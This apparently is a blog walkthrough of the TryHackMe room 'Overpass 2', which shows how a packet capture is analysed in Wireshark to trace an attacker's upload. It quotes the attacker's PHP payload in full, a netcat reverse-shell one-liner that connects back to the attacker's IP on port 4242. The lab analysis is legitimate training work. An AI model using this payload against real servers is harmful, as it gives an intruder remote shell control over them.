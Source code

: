 ```yaml
---
title: "tryhackme: overpass2"
date: 2021-10-27T16:16:04+04:00
draft: false
tags: ["cybersec", "tryhackme", "walkthrough", "pentesting", "wireshark"]
type: "post"
---
```


i'm going to talk about one of my favourite rooms on thm, and that is overpass 2. overpass 2 is the 7th room in the "advanced exploitation" chapter, of the "offensive pentesting" path. it's also the 2nd room in the overpass series, which is about a bunch of computer science students trying to run a company called "overpass". 

this room is interesting and different because the "target" in question has already been hacked, and it's our job to figure out how and if we can use the information left behind by the attacker to get back into the overpass network.

![cooctus](/overpass-cooctus.png)

the overpass SOC team managed to capture the packets in wireshark during the attack, and save them as a .pcap file. we've been given the .pcap file to analyze, so let's go ahead and do that.

![.pcap](/overpass-pcap.png)

this is what we first see when we open the file in wireshark. it's a lot of information, but we can see a bunch of TCP and HTTP requests made from a source (192.168.170.145) to a destination (192.168.170.159). 

let's set a display filter so we only see the HTTP requests. we can do this by entering ```http``` in the "apply a display filter" field.

![pcap2](/overpass-pcap2.png)

we can see that the source (attacker?) requested the /development/ URL. the first packet has the ```GET /development/``` request header. the server responds, and then the source makes a POST request to an upload form of sorts (header ```POST /development/upload.php```).

if we right-click on the packet, and click "follow TCP stream", it will show us the information that was contained within that packet.

![stream](/overpass-tcpstream.png)

we can see that the source/attacker uploaded a .php file called "payload.php". doesn't leave much to the imagination, does it? right under that, we can see the payload's code in clear text:

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

this script would have created a php reverse shell, which the attacker would control using netcat. the shell would have connected to port 4242.

the good (and bad) thing about using netcat to control reverse shells is that all the traffic is unencrypted, and should be visible in stream data that is captured.
